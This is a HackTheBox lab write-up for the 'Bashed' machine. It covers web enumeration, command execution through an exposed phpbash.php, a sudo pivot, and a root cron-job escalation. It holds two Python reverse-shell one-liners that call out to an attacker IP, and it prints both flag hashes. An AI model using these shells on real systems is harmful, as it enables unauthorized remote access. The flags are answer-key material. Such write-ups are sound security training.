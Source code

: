 ```yaml
---
title: HackTheBox - Bashed
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-21
tags: [linux-priv-esc/cronjob ]
img_path: /Writeups/HackTheBox/Linux/Bashed/images/
image:
  src: Pasted%20image%2020220820050244.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 

This machine begins w/ a web directory enumeration, finding a directory `/dev` directory containing a file `phpbash.php` that has code execution functionality, allowing us to obtain a low-privilege/`www-data` shell.

User `www-data` has a sudoers entry that allows `www-data` to run any command as `scriptmanager`, allowing us to privilege escalate to `scriptmanager`

Further enumeration of the system is done w/ `linpeas.sh`, discovering a directory `/scripts` that contains a python script that we have `RWX` access to. Also, within last 5 minutes a file `/scripts/test.txt` has been modified, suggesting that there is could be a cronjob running, `pspy` is used to confirm that a cronjob is running that executes all python script in `/scripts` directory every minute as root, and by creating a reverse shell python script in `/scripts` directory, it allowed us to privilege escalate to `root`.

---

| Column       | Details                                                       |
|--------------|---------------------------------------------------------------|
| Box Name     | Bashed                                                        |
| IP           | 10.10.10.68                                                   |
| Points       | -                                                             |
| Difficulty   | Easy                                                          |
| Creator      | [Arrexel](https://www.hackthebox.com/home/users/profile/2904) |
| Release Date | 09-Sep-2022                                                   |

# Recon


## TCP/80 (HTTP)

### FFUF

```
dev                     [Status: 301, Size: 306, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10]
php                     [Status: 301, Size: 306, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10]
:: Progress: [4615/4615] :: Job [1/1] :: 1102 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

- `/dev`

# Initial Foothold


## TCP/80 (HTTP) - Remote Code Execution

1. Proceed to `/dev`, `phpbash.php` found
2. `phpbash.php` allows us to execute commands
	![](Pasted%20image%2020220821004357.png)
3. Invoke a reverse shell

	```
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```

4. `www-data`/low-privilege shell obtained
	![](Pasted%20image%2020220821004455.png)
5. User Flag

	```
	61ecdd09b54362a6470b4fc3ccee53ce
	```

	![](Pasted%20image%2020220821004539.png)

# Privilege Escalation


## Script Manager - Via Sudo

1. Check sudo access for `www-data`

	```
	www-data@bashed:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on bashed:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on bashed:
	    (scriptmanager : scriptmanager) NOPASSWD: ALL
	
	```

	- Able to run any command as `scriptmanager`
2. Obtain `scriptmanager` shell

	```
	sudo -u scriptmanager /bin/bash
	```

![](Pasted%20image%2020220821004942.png)


## Root - Via Cronjob

1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220821010328.png)
	- `/scripts` - we have `write` access
	- `/scripts/test.txt` - modified within last 5minutes
		- Cronjob?
	- `/scripts/test.py` - python script that is writable
2. Sniff processes w/ `pspy`
	![](Pasted%20image%2020220821010538.png)
	- `UID 0` - `root`
	- `/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done ` - is executed every minute as `root`
	- all python scripts in `/scripts` are executed every minute
3. Create python reverse shell script

	```
	scriptmanager@bashed:/scripts$ nano /scripts/exploit.py
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
	```

4. Start listener and wait for cronjob to execute to obtain `root` shell
	![](Pasted%20image%2020220821010927.png)
5. Root Flag

	```
	ea8a2ef2a3c75833cd8345e0c866a980
	```

	![](Pasted%20image%2020220821011004.png)

6. View cronjob executed by `root`

	```
	# crontab -l
	* * * * * cd /scripts; for f in *.py; do python "$f"; done
	```
